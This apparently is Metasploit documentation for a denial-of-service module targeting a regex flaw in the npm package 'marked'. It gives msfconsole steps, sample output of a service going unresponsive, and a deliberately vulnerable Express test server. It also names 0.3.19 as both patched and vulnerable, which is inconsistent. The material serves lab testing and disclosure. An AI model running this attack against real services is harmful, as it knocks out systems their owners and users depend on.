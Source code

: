 ## Vulnerable Application

This auxiliary module exploits a Regular Expression Denial of Service vulnerability
in the npm module `marked`.  The vulnerable regex is in the "heading" processing. 
Versions before 0.3.19 are vulnerable.
Any application that uses a vulnerable version of this module and passes untrusted input
to the module will be vulnerable.

## How to Install

To install a vulnerable version of `marked`, run:
```
npm i marked@0.3.19
```

## Verification Steps

1. Create a new directory for test application.
2. Copy below example server into test application directory as `server.js`.
3. Run `npm i express` to install express in the test application directory.
4. To test vulnerable versions of the module, run `npm i marked@0.3.19` to install a vulnerable version of marked.
5. To test non-vulnerable versions of the module, run `npm i marked` to install the latest version of marked.
6. Once all dependencies are installed, run the server with `node server.js`.
7. Open up a new terminal.
8. Start msfconsole.
9. `use auxiliary/dos/http/marked_redos`.
10. `set RHOST [IP]`.
11. `set HTTP_METHOD get` (optional)
12. `set HTTP_PARAMETER foo` (required)
13. `set TARGETURI /path/to/vulnerable/route` (optional)
14. `run`.
15. In vulnerable installations, Module should have positive output and the test application should accept no further requests.
16. In non-vulnerable installations, module should have negative output and the test application should accept further requests.

## Scenarios

### marked npm module version 0.3.19

Expected output for successful exploitation:

```
[*] Testing Service to make sure it is working.
[*] Test request successful, attempting to send payload
[*] Sending ReDoS request to 192.168.3.24:3000.
[*] No response received from 192.168.3.24:3000, service is most likely unresponsive.
[*] Testing for service unresponsiveness.
[+] Service not responding.
[*] Auxiliary module execution completed
```

### Example Vulnerable Application

```
// npm i express body-parser
// npm i marked@0.3.19 (vulnerable)
// npm i marked (non-vulnerable)

const marked = require('marked');
const express = require('express');
const bodyParser = require('body-parser');

var app = express();
app.use(bodyParser.text({ type: 'text/html' }));

// create application/json parser
const jsonParser = bodyParser.json();

// create application/x-www-form-urlencoded parser
const urlencodedParser = bodyParser.urlencoded({ extended: false });

app.get("/", urlencodedParser, function(req, res) {
  var result = req.query.foo ? marked(req.query.foo) : 'nothing';
  res.end(result);
});

app.post("/cat", urlencodedParser, function(req, res) {
  var result = req.body.bar ? marked(req.body.bar) : 'nothing'
  res.end(result);
});

app.listen(3000, '0.0.0.0', function() { console.log('Application listening on port 3000 on all interfaces!'); });
```
